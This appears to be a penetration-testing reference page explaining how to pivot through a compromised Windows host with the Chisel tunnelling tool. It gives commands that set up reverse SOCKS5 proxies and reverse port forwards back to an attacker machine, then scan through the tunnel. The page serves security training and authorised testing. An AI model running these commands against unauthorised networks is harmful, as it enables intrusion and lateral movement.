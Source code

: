 ```yaml
---
description: >-
  Example scenario for pivoting using Chisel. Note, this example assumes that
  the attacking system is Linux and the target system is Windows.
---
```


# Using Chisel to Pivot

### Setting up a SOCKS Proxy with Chisel

1\. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)

> Note, you will need a binary placed on your attacking system and one to be uploaded to the target system.

2\. On the attacking system:

```bash
./chisel server --socks5 --reverse -p 8000
```

3\. On the target system:&#x20;

```bash
.\chisel.exe client $attackerip:8000 R:socks
```

4\. Observe on the attacking system that the SOCKS5 connection has been successfully established.

### Forwarding One Port with Chisel

1\. On the attacking system:

```bash
./chisel server 9000 -reverse
```

2\. On the target system:&#x20;

```bash
.\chisel client $attackerip:9000 R:$localport:127.0.0.1:$remoteport
```

#### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command:&#x20;

```bash
ss -lnpt | grep $localport
```

#### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running&#x20;

```bash
nmap -sC -sV -p3306 -n localhost
```

### References

{% embed url="https://ap3x.github.io/posts/pivoting-with-chisel" %}

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}
